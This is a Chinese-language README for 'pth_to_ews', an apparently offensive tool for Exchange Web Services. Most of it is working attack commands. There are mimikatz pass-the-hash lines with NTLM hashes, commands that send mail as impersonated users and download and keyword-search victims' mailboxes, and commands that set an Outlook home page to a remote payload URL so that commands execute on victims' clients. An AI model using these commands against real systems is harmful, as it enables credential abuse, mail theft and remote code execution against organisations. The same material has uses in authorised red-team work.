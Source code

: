 # 使用说明

## 前人工具局限

### 1. ntlmRelayToEWS.py  该工具主要应用于 ntlmv1 ntlmv2 hash的中继劫持验证ews接口，ntlmv1 ntlmv2 中继都只能在认证过程中劫持，无法反复利用。         
ntlmv1 ntlmv2 hash获取需配合unc路径触发

```
ntlmRelayToEWS.py -t https://mail.xxx.net/EWS/exchange.asmx -r setHomePage -f inbox -u http://test.org/cacheimg/xxxxxxxxxxxxxxxxx.html
```

### 2. ruler 该工具go语言编写 1.ews接口爆破账号密码 2. outlook规则创建执行命令 3.outlook home url创建命令执行
代码中使用exchange自动发现协议，利用autodiscover/autodiscover.xml来查找相关接口,有些公司exchange邮件服务器并未启用autodiscover


## 编写目的:

不考虑relay中继的情况下 ,解决在域渗透过程中，ntds.dit抓出来的ntlm hash解不出来明文， 无法登陆exchange owa查看邮件。 

利用指定exchange的ews接口 用mimikatz pth后，可直接操作收发邮件，以及通过修改设置outlook-home-Url 在outlook客户端所属win客户端执行命令


使用说明：

tips:可以使用mimikatz 进行ntlm pth 然后即可使用其他用户凭据进行发送邮件

```
mimikatz.exe privilege::debug "sekurlsa::pth /user:xxxxxxx-hr /domain:corp.xxx.net /ntlm:e00cae2eee1977cec78e888888888888 /run:cmd" exit
mimikatz.exe privilege::debug "sekurlsa::pth /user:xxxxxxxxxxxx-it /domain:corp.xxx.net /ntlm:72abd45c3af888888963e86d9c888888 /run:cmd" exit
```

### 1.Sendmail

使用默认凭证发送邮件, html.txt 为自定义的正文内容      支持html格式                    

```
pth_to_ews.exe https://sb/ews/exchange.asmx -Sendmail -T "sbsbsbsb" -TM 123123@qq.com -B HTML.txt
```
使用账号密码发送邮件

```
pth_to_ews.exe https://sb/ews/exchange.asmx -U sb@sb.net -P ddddd!@#$ -Sendmail -T "你好" -TM sb@test.cn -B HTML.txt
```

### 2. Get Inbox|SentItems Mail:

使用默认凭证收取 收件箱邮件

```
pth_to_ews.exe https://sb/ews/exchange.asmx -MType Inbox                 //保存在目录下的inbox文件夹中为eml格式
```

使用默认凭证收取SentItems邮件

```
pth_to_ews.exe https://sb/ews/exchange.asmx -MType SentItems
```

使用默认凭证收取邮件 检索关键字vpn

```
pth_to_ews.exe https://mail.xxx.net/ews/exchange.asmx -MType SentItems -Filterstring "vpn"
```

使用账号密码收取邮件

```
pth_to_ews.exe https://sb/ews/exchange.asmx -U sb@sb.net -P xxxx!@#$ -MType Inbox
```


使用账号密码收取邮件 检索关键字vpn

```
pth_to_ews.exe https://sb/ews/exchange.asmx -U sb@sb.net -P ssss!@#$ -MType Inbox -Filterstring vpn
```

### 3. Set Outlook HomePage Inbox Url 攻击利用 _已测试exchenge2010 outlook2010/2013

使用默认凭证验证ews接口设置outlook 客户端主页，url为远程pyloadurl,html里面写payload。             

homepage的文章 https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/

```
pth_to_ews.exe https://mailxxxo.net/ews/exchange.asmx -Purl http://www.test.org/cacheimg/ceshi.html -Type Set
```

Reset参数为删除设置outlook 客户端主页

```
pth_to_ews.exe https://maxxx.net/ews/exchange.asmx -Purl http://www.test.org/cacheimg/ceshi.html -Type Set
```


使用账号密码设置outlook 客户端主页url，url为远程pyloadurl,html里面写payload

```
pth_to_ews.exe https://mail.xxx..net/ews/exchange.asmx -U i-xxxx@xxx.xxxx.xxx -P xxxx!@#$% -Purl http://www.test.org/cacheimg/ceshi.htmll -Type Set
```



